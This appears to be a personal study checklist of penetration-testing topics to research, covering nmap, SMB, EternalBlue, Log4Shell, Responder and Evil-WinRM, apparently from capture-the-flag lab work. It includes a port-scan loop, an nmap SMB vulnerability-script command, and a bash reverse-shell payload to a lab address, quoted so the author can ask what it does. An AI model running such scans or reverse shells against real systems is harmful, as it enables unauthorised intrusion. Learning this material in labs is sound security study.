 # Needs research

* OpenSSL. Why [configure like this](https://help.heroku.com/88GYDTB2/how-do-i-configure-openssl-to-allow-the-use-of-legacy-cryptographic-algorithms)?
```bash
for port in $(cat ports9.txt) ; do
  nmap -p $port 10.129.70.15 >> scan.txt
done
grep -i "open" scan.txt
```

* FIFO named pipe.

* What is DNS Lookup, XXE and OAST?

* `sudo nmap --script smb-vuln* -p 445  10.10.10.4` nmap scripts.

* Meterpreter Metasploit.

* WannaCry, EternalBlue, MS17-010.

* What is LDAP, JNDI, analyze log4shell vulnerability deeply.

* Why `nmap -Pn`, block ping probes.

* NTLMv2. NTHash.

* Responder utility. `responder`.

* `/etc/hosts` details. Why putting `IP   website` to resolve connection?

* Evil-WinRM. [Detailed guide](https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/). Port 5985, 5896.

* VPN. `openvpn`.

* NMAP.

* `telnet`. Port 23.

* `ftp`. File Transfer Protocol. Port 21.

* SMB. Server Message Block. `samba`, `microsoft-ds`. Port 445, or 139.

* ICMP echo request. `ping`.

* TCP/UDP ports.

* RDP. Remote Desktop Protocol. Port 3389.

* HTTP, HTTPS. `nginx`, `apache`. Port 80.

* MongoDB. No-SQL database. Port 27017, 27018.

* Rsync. `rsync`. Port 873.

* `gobuster`.

* SQL. `mariadb`, `mysql`. Port 3306.

* Where to get better password and directory lists? Search what Kali uses.

* What is the difference between `gobuster` options `vhost` and `dns`?

* What is `netcat` and how does it work?

* DNS servers. Why add arbitrary DNS servers to `/etc/hosts`, such as `8.8.8.8`?

* What the payload `bash -c 'exec bash -i &>/dev/tcp/10.10.14.11/1234 <&1'` does exactly?
